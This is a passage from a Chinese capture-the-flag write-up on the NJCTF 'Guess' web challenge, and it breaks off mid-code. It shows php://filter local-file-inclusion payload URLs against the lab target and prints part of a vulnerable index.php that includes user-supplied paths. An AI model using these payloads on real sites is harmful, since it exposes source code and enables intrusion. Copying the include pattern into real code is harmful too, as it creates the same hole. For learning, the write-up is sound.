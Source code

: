 title: 攻防世界 2017 NJCTF Web Guess
key: 9a75eef37ffd1f758d96d8b24f86b9a5
author: 3ND
tags:
  - Writeup
  - CTF
date: 2019-04-25 21:05:00
---
不错的一道题目，记录一下~



## 0x01 文件上传

> http://111.198.29.45:30117/?page=upload (ADWorld攻防世界提供靶场)

打开题目发现疑似文件上传题目，随机选取一张图片上传后回显如下：

![image.png](https://i.loli.net/2019/08/09/4mzLAEepq86CkxX.png)

初步判断为(文件名校验)白名单+服务端验证。(那么上传成功后的文件在哪呢？

## 0x02 文件包含

简单探测后发现存在index.php、upload.php文件，观察URL中的`?page=upload`，可能存在文件包含漏洞?

> php://filter是一种元封装器，设计用于"数据流打开"时的"筛选过滤"应用，对本地磁盘文件进行读写。简单来讲就是可以在执行代码前将代码换个方式读取出来，只是读取，不需要开启`allow_url_include`.

尝试使用**php://filter**伪协议读取源码,Payload:

```bash
//读取index.php
http://111.198.29.45:30117/?page=php://filter/read=convert.base64-encode/resource=index
//读取upload.php
http://111.198.29.45:30117/?page=php://filter/read=convert.base64-encode/resource=upload
```

解Base64后获取如下源码:

- index.php(部分)

```php
<?php
error_reporting(0);

session_start();
if(isset($_GET['page'])){
    $page=$_GET['page'];
}else{
    $page=null;
}

if(preg_match('/\.\./',$page))
{
    echo "<div class=\"msg error\" id=\"message\">
    <i class=\"fa fa-exclamation-triangle\"></i>Attack Detected!</div>";
    die();
}

?>

<?php

if($page)
{
    if(!(include($page.'.php')))
    {
```